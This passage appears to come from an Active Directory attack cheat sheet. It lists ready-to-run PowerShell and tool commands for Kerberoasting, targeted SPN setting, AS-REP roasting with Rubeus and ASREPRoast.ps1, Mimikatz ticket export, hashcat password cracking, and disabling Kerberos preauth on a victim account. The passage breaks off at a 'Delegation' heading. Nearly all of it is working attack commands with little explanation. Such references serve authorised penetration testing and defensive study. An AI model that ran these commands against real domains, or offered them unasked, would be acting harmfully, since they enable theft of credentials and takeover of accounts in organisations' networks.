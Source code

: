   ```powershell
    Get-NetUser -SPN | Request-SPNTicket
    klist
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    .\tgsrepcrack.py .\10k-worst-pass.txt .\tickets\7-40a10000-sqluser@MSSQLSvc~sqlserver.dc.organicsecurity.local.kirbi


**Targetted Kerberosting**

  - Find the account having write privileges for current user

    ```powershell
    Invoke-ACLScanner  -ResolveGUID | ?{$_.IdentityReferencename -like "*user01"}
    Invoke-ACLScanner  -ResolveGUID | ?{$_.IdentityReferencename -like "rdpusers"}

  - Perform targetted SPN, where the current user has GenericAll or Write Property privilege

    ```powershell
    Set-DomainObject -Identity testuser01 -Set @{serviceprincipalname='ops/test'}


**ASREP-Roasting**

  - Enumerate user account where Kerberos Preauth is disabled
	
    ```powershell
    Get-DomainUser -PreauthNotRequired -Verbose

  - Method 1: Fetch the AS-REP Response using Rubeus

    ```powershell
    .\Rubeus.exe asreproast
    .\Rubeus.exe asreproast /format:hashcat /user:user01 /outfile:hash.txt
    .\Rubeus.exe asreproast /format:hashcat /outfile:hash.txt

  - Method 2: Use ASREPRoast Powershell script 

    ```powershell
    . .\ASREPRoast.ps1
    Get-ASREPHash -UserName vpn379user

  - Crack the hash using Hashcat
    ```powershell
    hashcat.exe -a 0 -m 18200 asrep-roast.txt 500-worst-passwords.txt 


**Targeted ASREP-Roasting**

  - Determine if the current user has permission to set User Account Control flag for another user

    ```powershell
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -like 'S-1-5-21-37422221-831111-1111111-1*'}
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'User01'}

  - Set the UserAccountControl bit to disable kerberos preauth for given account  

    ```powershell
    Set-DomainObject -Identity User01 -XOR @{useraccountcontrol=4194304}


# Delegation

  ```